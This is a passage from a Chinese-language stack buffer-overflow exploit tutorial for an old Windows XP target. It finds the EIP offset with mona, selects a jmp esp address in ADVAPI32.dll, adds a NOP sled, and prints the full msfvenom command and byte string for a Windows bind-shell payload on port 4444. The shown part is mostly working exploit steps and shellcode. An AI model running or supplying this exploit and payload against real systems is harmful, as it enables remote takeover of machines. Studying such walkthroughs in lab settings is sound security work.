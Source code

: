 重新运行溢出脚本：EIP=34694133

```python
!mona po 34694133
#found in cyclic pattern at position 251
```

偏移量为251

## 0x03 跳板技术JMP ESP

查找jmp esp地址

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ebd9da0e-1ac2-4940-a0a8-5fd16cf70d41/Untitled.png

选择

```python
Message=  0x77dbf049 : jmp esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)

```

## 0x04 Shellcode

### 滑板：

'\x90'*20

### 生成Shellcode

```bash
msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.137.1 LPORT=4444 -b '\x00\x0a\x0d' -f c

"\xda\xc1\xbb\x1a\xf9\xbf\x94\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x53\x83\xc2\x04\x31\x5a\x13\x03\x40\xea\x5d\x61\x88\xe4\x20"
"\x8a\x70\xf5\x44\x02\x95\xc4\x44\x70\xde\x77\x75\xf2\xb2\x7b"
"\xfe\x56\x26\x0f\x72\x7f\x49\xb8\x39\x59\x64\x39\x11\x99\xe7"
"\xb9\x68\xce\xc7\x80\xa2\x03\x06\xc4\xdf\xee\x5a\x9d\x94\x5d"
"\x4a\xaa\xe1\x5d\xe1\xe0\xe4\xe5\x16\xb0\x07\xc7\x89\xca\x51"
"\xc7\x28\x1e\xea\x4e\x32\x43\xd7\x19\xc9\xb7\xa3\x9b\x1b\x86"
"\x4c\x37\x62\x26\xbf\x49\xa3\x81\x20\x3c\xdd\xf1\xdd\x47\x1a"
"\x8b\x39\xcd\xb8\x2b\xc9\x75\x64\xcd\x1e\xe3\xef\xc1\xeb\x67"
"\xb7\xc5\xea\xa4\xcc\xf2\x67\x4b\x02\x73\x33\x68\x86\xdf\xe7"
"\x11\x9f\x85\x46\x2d\xff\x65\x36\x8b\x74\x8b\x23\xa6\xd7\xc4"
"\x80\x8b\xe7\x14\x8f\x9c\x94\x26\x10\x37\x32\x0b\xd9\x91\xc5"
"\x6c\xf0\x66\x59\x93\xfb\x96\x70\x50\xaf\xc6\xea\x71\xd0\x8c"
"\xea\x7e\x05\x38\xe2\xd9\xf6\x5f\x0f\x99\xa6\xdf\xbf\x72\xad"
"\xef\xe0\x63\xce\x25\x89\x0c\x33\xc6\xa4\x90\xba\x20\xac\x38"
"\xeb\xfb\x58\xfb\xc8\x33\xff\x04\x3b\x6c\x97\x4d\x2d\xab\x98"
"\x4d\x7b\x9b\x0e\xc6\x68\x1f\x2f\xd9\xa4\x37\x38\x4e\x32\xd6"
"\x0b\xee\x43\xf3\xfb\x93\xd6\x98\xfb\xda\xca\x36\xac\x8b\x3d"
"\x4f\x38\x26\x67\xf9\x5e\xbb\xf1\xc2\xda\x60\xc2\xcd\xe3\xe5"
"\x7e\xea\xf3\x33\x7e\xb6\xa7\xeb\x29\x60\x11\x4a\x80\xc2\xcb"
"\x04\x7f\x8d\x9b\xd1\xb3\x0e\xdd\xdd\x99\xf8\x01\x6f\x74\xbd"
"\x3e\x40\x10\x49\x47\xbc\x80\xb6\x92\x04\xb0\xfc\xbe\x2d\x59"
"\x59\x2b\x6c\x04\x5a\x86\xb3\x31\xd9\x22\x4c\xc6\xc1\x47\x49"
"\x82\x45\xb4\x23\x9b\x23\xba\x90\x9c\x61";
```

